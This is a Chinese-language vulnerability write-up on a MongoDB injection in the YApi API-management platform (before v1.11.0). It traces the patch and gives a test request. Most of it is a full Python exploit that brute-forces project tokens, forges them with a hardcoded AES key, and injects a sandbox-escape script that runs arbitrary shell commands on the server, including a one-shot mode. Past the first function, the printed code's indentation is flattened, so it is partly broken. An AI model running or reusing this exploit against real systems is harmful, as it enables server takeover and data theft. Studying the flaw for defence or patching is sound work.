


# YApi 接口管理平台 up SQL注入漏洞

## 漏洞描述

YApi 接口管理平台存在SQL注入漏洞，攻击者通过MongoDB注入获取到用户数据后，通过已知的AES密钥生成加密后的Token可以通过VM逃逸执行系统命令获取主机权限

## 漏洞影响

<a-checkbox checked>YApi 接口管理平台 < v1.11.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="YApi"</a-checkbox></br>

## 漏洞复现

登录页面


查看漏洞修复补丁，其中对 token 的数据类型继续校验，需要为字符串才能通过代码


来到代码块中，首先先从请求中获取 token 数据，通过校验后来到方法` parseToken`


`server/utils/token.js#parseToken` 方法中对 token进行解密，当解密失败时返回 False


在这个文件中我们可以找到 Token的加解密方法


Token为False时，代码走向 `server/controllers/base.js#getProjectIdByToken`方法




getProjectIdByToken方法调用 `server/models/token.js#findId `方法

使用 $regex 关键字匹配MongoDB 数据库中的 token, 并通过页面回显判断 token是否正确

```php
db.token.findOne({token:{'$regex':'^1c'}})
```


验证POC

```php
POST /api/interface/up

{"id": -1, "token": {"$regex": "^xxxxx", "$nin": []}}
```


## 漏洞POC

<a-alert type="success" message="https://github.com/vulhub/vulhub/tree/master/yapi/mongodb-inj" description="" showIcon>
</a-alert>
<br/>

```python
import requests
import json
import click
import re
import sys
import logging
import hashlib
import binascii
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from urllib.parse import urljoin

logger = logging.getLogger('attacker')
logger.setLevel('WARNING')
ch = logging.StreamHandler(sys.stdout)
ch.setFormatter(logging.Formatter('%(asctime)s - %(message)s'))
logger.addHandler(ch)
choices = 'abcedf0123456789'
script_template = r'''const sandbox = this
const ObjectConstructor = this.constructor
const FunctionConstructor = ObjectConstructor.constructor
const myfun = FunctionConstructor('return process')
const process = myfun()
const Buffer = FunctionConstructor('return Buffer')()
const output = process.mainModule.require("child_process").execSync(Buffer.from('%s', 'hex').toString()).toString()
context.responseData = 'testtest' + output + 'testtest'
'''


def compute(passphase: str):
    nkey = 24
    niv = 16
    key = ''
    iv = ''
    p = ''

    while True:
        h = hashlib.md5()
        h.update(binascii.unhexlify(p))
        h.update(passphase.encode())
        p = h.hexdigest()

        i = 0
        n = min(len(p) - i, 2 * nkey)
        nkey -= n // 2
        key += p[i:i + n]
        i += n
        n = min(len(p) - i, 2 * niv)
        niv -= n // 2
        iv += p[i:i + n]
        i += n

        if nkey + niv == 0:
            return binascii.unhexlify(key), binascii.unhexlify(iv)


def aes_encode(data):
    key, iv = compute('abcde')
    padder = padding.PKCS7(128).padder()
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv))
    encryptor = cipher.encryptor()
    ct = encryptor.update(padder.update(data.encode()) + padder.finalize()) + encryptor.finalize()
    return binascii.hexlify(ct).decode()


def aes_decode(data):
    key, iv = compute('abcde')
    unpadder = padding.PKCS7(128).unpadder()
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv))
    decryptor = cipher.decryptor()
    ct = decryptor.update(binascii.unhexlify(data)) + decryptor.finalize()
    ct = unpadder.update(ct) + unpadder.finalize()
    return ct.decode().strip()


def brute_token(target, already):
    url = urljoin(target, '/api/interface/up')
    current = '^'
    for i in range(20):
        for ch in choices:
            guess = current + ch
            data = {
                'id': -1,
                'token': {
                    '$regex': guess,
                    '$nin': already
                }
            }
            headers = {
                'Content-Type': 'application/json'
            }
            response = requests.post(url,
                                     data=json.dumps(data),
                                     headers=headers,
                                     # proxies={'https': 'http://127.0.0.1:8085', 'http': 'http://127.0.0.1:8085'},
                                     # verify=False,
                                    )
            res = response.json()

            if res['errcode'] == 400:
            current = guess
            break

            logger.debug(f'current cuess: {current}')

            return current[1:]


            def find_owner_uid(target, token):
            url = urljoin(target, '/api/project/get')
            for i in range(1, 200):
            params = {'token': aes_encode(f'{i}|{token}')}
            response = requests.get(url, params=params,
            # proxies={'https': 'http://127.0.0.1:8085', 'http': 'http://127.0.0.1:8085'},
            # verify=False,
            )
            data = response.json()
            if data['errcode'] == 0:
            return i

            return None


            def find_project(target, token, pid=None):
            url = urljoin(target, '/api/project/get')
            params = {'token': token}
            if pid:
            params['id'] = pid

            response = requests.get(url,
            params=params,
            #proxies={'https': 'http://127.0.0.1:8085', 'http': 'http://127.0.0.1:8085'},
            #verify=False,
            )
            data = response.json()

            if data['errcode'] == 0:
            return data['data']


            def find_col(target, token, brute_from, brute_to):
            url = urljoin(target, '/api/open/run_auto_test')

            for i in range(brute_from, brute_to):
            try:
            params = {'token': token, 'id': i, "mode": "json"}
            response = requests.get(url,
            params=params,
            timeout=5,
            #proxies={'https': 'http://127.0.0.1:8085', 'http': 'http://127.0.0.1:8085'},
            #verify=False,
            )

            data = response.json()
            if 'message' not in data:
            continue

            if data['message']['len'] > 0:
            logger.debug('Test Result Found: %r', response.url)
            yield i
            except requests.exceptions.Timeout:
            logger.debug('id=%d timeout', i)
            pass


            def update_project(target, token, project_id, command):
            url = urljoin(target, '/api/project/up')

            command_hex = command.encode().hex()
            script = script_template % command_hex
            response = requests.post(url,
            params={'token': token},
            json={'id': project_id, 'after_script': script},
            # proxies={'https': 'http://127.0.0.1:8085', 'http': 'http://127.0.0.1:8085'},
            # verify=False,
            )
            data = response.json()
            return data['errcode'] == 0


            def run_auto_test(target, token, col_id):
            url = urljoin(target, '/api/open/run_auto_test')

            response = requests.get(url, 
            params={'token': token, 'id': col_id, 'mode': 'json'},
            # proxies={'https': 'http://127.0.0.1:8085', 'http': 'http://127.0.0.1:8085'},
            # verify=False,
            )

            try:
            data = response.json()
            return data['list'][0]['res_body'][8:-8]
            except (requests.exceptions.JSONDecodeError, KeyError, IndexError, TypeError) as e:
            g = re.search(br'testtest(.*?)testtest', response.content, re.I | re.S)
            if g:
            return g.group(1).decode()
            else:
            return None


            def clear_project(target, token, project_id, old_after_script):
            url = urljoin(target, '/api/project/up')
            response = requests.post(url, params={'token': token}, json={'id': project_id, 'after_script': old_after_script})
            data = response.json()
            return data['errcode'] == 0


            @click.group()
            @click.option('--debug', 'debug', is_flag=True, type=bool, required=False, default=False)
            def cli(debug):
            if debug:
            logger.setLevel('DEBUG')


            @cli.command('enc')
            @click.argument('data', type=str, required=True)
            def cmd_enc(data: str):
            click.echo(aes_encode(data))


            @cli.command('dec')
            @click.argument('data', type=str, required=True)
            def cmd_dec(data: str):
            click.echo(aes_decode(data))


            @cli.command('token')
            @click.option('-u', '--url', type=str, required=True)
            @click.option('-c', '--count', type=int, default=5)
            def cmd_token(url, count):
            already = []
            for i in range(count):
            token = brute_token(url, already)
            if not token:
            break

            click.echo(f'find a valid token: {token}')
            already.append(token)


            @cli.command('owner')
            @click.option('-u', '--url', type=str, required=True)
            @click.option('-t', '--token', 'token', type=str, required=True, help='Token that get from first step')
            def cmd_owner(url, token):
            aid = find_owner_uid(url, token)
            e = aes_encode(f'{aid}|{token}')
            click.echo(f'your owner id is: {aid}, encrypted token is {e}')


            @cli.command('project')
            @click.option('-u', '--url', type=str, required=True)
            @click.option('-o', '--owner-id', 'owner', type=str, required=True)
            @click.option('-t', '--token', 'token', type=str, required=True, help='Token that get from first step')
            def cmd_project(url, owner, token):
            token = aes_encode(f'{owner}|{token}')
            project = find_project(url, token)
            if project:
            logger.info('[+] project by this token: %r', project)
            click.echo(f'your project id is: {project["_id"]}')


            @cli.command('col')
            @click.option('-u', '--url', type=str, required=True)
            @click.option('-o', '--owner-id', 'owner', type=str, required=True)
            @click.option('-t', '--token', 'token', type=str, required=True, help='Token that get from first step')
            @click.option('--from', 'brute_from', type=int, required=False, default=1, help='Brute Col id from this number')
            @click.option('--to', 'brute_to', type=int, required=False, default=200, help='Brute Col id to this number')
            def cmd_col(url, owner, token, brute_from, brute_to):
            token = aes_encode(f'{owner}|{token}')
            for i in find_col(url, token, brute_from, brute_to):
            click.echo(f'found a valid col id: {i}')


            @cli.command('rce')
            @click.option('-u', '--url', type=str, required=True)
            @click.option('-o', '--owner-id', 'owner', type=str, required=True)
            @click.option('-t', '--token', 'token', type=str, required=True, help='Token that get from first step')
            @click.option('--pid', 'project_id', type=int, required=True)
            @click.option('--cid', 'col_id', type=int, required=True)
            @click.option('-c', '--command', 'command', type=str, required=True, help='Command that you want to execute')
            def cmd_rce(url, owner, token, project_id, col_id, command):
            token = aes_encode(f'{owner}|{token}')
            project = find_project(url, token, project_id)
            if not project:
            click.echo('[-] failed to get project')
            return False

            old_after_script = project.get('after_script', '')
            if not update_project(url, token, project_id, command):
            click.echo('[-] failed to update project')
            return False

            output = run_auto_test(url, token, col_id)
            if output:
            click.echo(output)
            clear_project(url, token, project_id, old_after_script)
            return True

            clear_project(url, token, project_id, old_after_script)
            return False


            @cli.command('one4all')
            @click.option('-u', '--url', type=str, required=True)
            @click.option('--count', type=int, default=5)
            @click.option('-c', '--command', type=str, default='id')
            def cmd_one4all(url, count, command):
            already = []
            for i in range(count):
            token = brute_token(url, already)
            if not token:
            logger.info('[-] no new token found, exit...')
            break

            already.append(token)
            logger.info('[+] find a new token: %s', token)
            owner_id = find_owner_uid(url, token)
            if not owner_id:
            logger.info('[-] failed to find the owner id using token %s', token)
            continue

            etoken = aes_encode(f'{owner_id}|{token}')
            logger.info('[+] find a new owner id: %r, encrypted token: %s', owner_id, etoken)
            project = find_project(url, etoken)
            if not project:
            logger.info('[-] failed to find project using token %s', token)
            continue

            project_id = project['_id']
            logger.info('[+] project_id = %s, project = %r', project_id, project)
            col_ids = find_col(url, etoken, 1, 200)
            if not col_ids:
            logger.info('[+] failed to find cols in project %s, try next project...', project_id)

            for col_id in col_ids:
            logger.info('[+] col_id = %s', col_id)
            click.echo(f'hit: project_id: {project_id} | owner_id: {owner_id} | col_id: {col_id} | token: {token}')
            click.echo(f'suggestion: python {sys.argv[0]} rce -u {url} -t {token} -o {owner_id} --pid {project_id} --cid {col_id} --command="{command}"')

            if cmd_rce.callback(url, owner_id, token, project_id, col_id, command):
            return


            if __name__ == '__main__':
            cli()
```